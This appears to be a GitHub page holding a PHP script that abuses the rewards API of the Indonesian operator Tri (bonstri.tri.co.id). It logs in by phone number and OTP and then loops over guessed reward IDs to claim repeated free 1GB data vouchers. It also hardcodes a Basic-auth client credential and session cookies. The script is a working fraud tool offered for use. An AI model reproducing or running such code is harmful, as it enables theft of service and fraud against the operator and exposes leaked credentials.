 # curut
curut_nakal

<?php
function request($url, $data = null, $headers = null, $put = null)
{
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $url);
	if($put):
	curl_setopt($ch, CURLOPT_CUSTOMREQUEST, "PUT");
	endif;
	if($data):
	curl_setopt($ch, CURLOPT_POST, 1);
	curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
	endif;
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	if($headers):
	curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
	endif;
	curl_setopt($ch, CURLOPT_ENCODING, "GZIP");
	return curl_exec($ch);
}
function getstr($str, $exp1, $exp2)
{
	$a = explode($exp1, $str)[1];
	return explode($exp2, $a)[0];
}
echo "Masukkan Nomor : ";
$nohp = trim(fgets(STDIN));
$url = "http://bonstri.tri.co.id/api/v1/login/request-otp";
$data = "{\"msisdn\":\"$nohp\"}";
$len = strlen($data);
$headers = array();
$headers[] = "Host: bonstri.tri.co.id";
$headers[] = "User-Agent: Mozilla/5.0 (Linux; Android 7.0; SM-G892A Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/67.0.3396.87 Mobile Safari/537.36";
$headers[] = "Accept: application/json, text/plain, */*";
$headers[] = "Accept-Language: en-US,en;q=0.5";
$headers[] = "Accept-Encoding: gzip, deflate";
$headers[] = "Content-Type: application/json";
$headers[] = "Content-Length: $len";
$headers[] = "Origin: http://bonstri.tri.co.id";
$headers[] = "DNT: 1";
$headers[] = "Connection: close";
$headers[] = "Referer: http://bonstri.tri.co.id/login?returnUrl=%2Fhome";
$headers[] = "Cookie: TS0100d305=0162c9cb494eec12bb5ebd5a0cf9d600d03ff497d0dd6544efb7c8bcd36ba3bf7656a4845cbaa6e8685ebdbda2e6f9b0ded9926243";
$getotp = request($url, $data, $headers);

echo "OTP : ";
$otp = trim(fgets(STDIN));
$url = "http://bonstri.tri.co.id/api/v1/login/validate-otp";
$data = "grant_type=password&username=$nohp&password=$otp";
$len = strlen($data);
$headers = array();
$headers[] = "Host: bonstri.tri.co.id";
$headers[] = "User-Agent: Mozilla/5.0 (Linux; Android 7.0; SM-G892A Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/67.0.3396.87 Mobile Safari/537.36";
$headers[] = "Accept: application/json, text/plain, */*";
$headers[] = "Accept-Language: en-US,en;q=0.5";
$headers[] = "Accept-Encoding: gzip, deflate";
$headers[] = "Authorization: Basic Ym9uc3RyaTpib25zdHJpc2VjcmV0";
$headers[] = "Content-Type: application/x-www-form-urlencoded";
$headers[] = "Content-Length: $len";
$headers[] = "Origin: http://bonstri.tri.co.id";
$headers[] = "DNT: 1";
$headers[] = "Connection: close";
$headers[] = "Referer: http://bonstri.tri.co.id/login?returnUrl=%2Fhome";
$headers[] = "Cookie: TS0100d305=0162c9cb494eec12bb5ebd5a0cf9d600d03ff497d0dd6544efb7c8bcd36ba3bf7656a4845cbaa6e8685ebdbda2e6f9b0ded9926243";
$login = request($url, $data, $headers);
$bearer = getstr($login, '"access_token":"','"');

$url = "http://bonstri.tri.co.id/api/v1/voucherku/voucher-history";
$data = "{}";
$headers = array();
$headers[] = "Host: bonstri.tri.co.id";
$headers[] = "User-Agent: Mozilla/5.0 (Linux; Android 7.0; SM-G892A Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/67.0.3396.87 Mobile Safari/537.36";
$headers[] = "Accept: application/json, text/plain, */*";
$headers[] = "Accept-Language: en-US,en;q=0.5";
$headers[] = "Accept-Encoding: gzip, deflate";
$headers[] = "Authorization: Bearer $bearer";
$headers[] = "Content-Type: application/json";
$headers[] = "Content-Length: 2";
$headers[] = "Origin: http://bonstri.tri.co.id";
$headers[] = "Connection: close";
$headers[] = "Referer: http://bonstri.tri.co.id/voucherku";
$headers[] = "Cookie: _ga=GA1.3.2053671532.1587780555; _gid=GA1.3.888559198.1587780555; TS0100d305=0162c9cb49e0d157a2c80ae96556c73d3bea058f3c536b787d6659d580e73a70a6f3a02af9a84533df5bea7f93242a4490a524d4b3; _gat_gtag_UA_128593534_1=1";
$gettrx = request($url, $data, $headers);
$trxid = getstr($gettrx, 'GB 1 Hari (Jam 01:00 - 12:00)","rewardTransactionId":"','"');

tembak:
echo "[?] Jumlah [GB] : ";
$loop = trim(fgets(STDIN));
for ($x = 0; $x < $loop; $x++) {
$rand = substr(str_shuffle(str_repeat('0123456789', mt_rand(1,3))), 1, 3);
$url = "http://bonstri.tri.co.id/api/v1/voucherku/get-voucher-code";
$data = "{\"rewardId\":\"2311180$rand\",\"rewardTransactionId\":\"$trxid\"}";
$headers = array();
$headers[] = "Host: bonstri.tri.co.id";
$headers[] = "Accept: application/json, text/plain, */*";
$headers[] = "Authorization: Bearer $bearer";
$headers[] = "User-Agent: Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Mobile Safari/537.36";
$headers[] = "Content-Type: application/json";
$headers[] = "Origin: http://bonstri.tri.co.id";
$headers[] = "Referer: http://bonstri.tri.co.id/voucherku";
$headers[] = "Accept-Encoding: gzip, deflate";
$headers[] = "Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,ms;q=0.6";
$headers[] = "Cookie: _ga=GA1.3.770946611.1584431943; _gid=GA1.3.168000598.1584431943; TS0100d305=0162c9cb490990834a7708193e20bbd775eae933ce3e50f34503ef106b69d7ceacc5ecf66e5fb6ca7a51870037152284bafaf2991d";
$headers[] = "Connection: close";
$exec = request($url, $data, $headers);
if(strpos($exec, '"data":"Success"') !== false)
{
	echo "You have taken the GSM Benifits for product  Data 1GB 1 Day (01-12)\n";
}
else
{
	echo " Failed !";
}
}
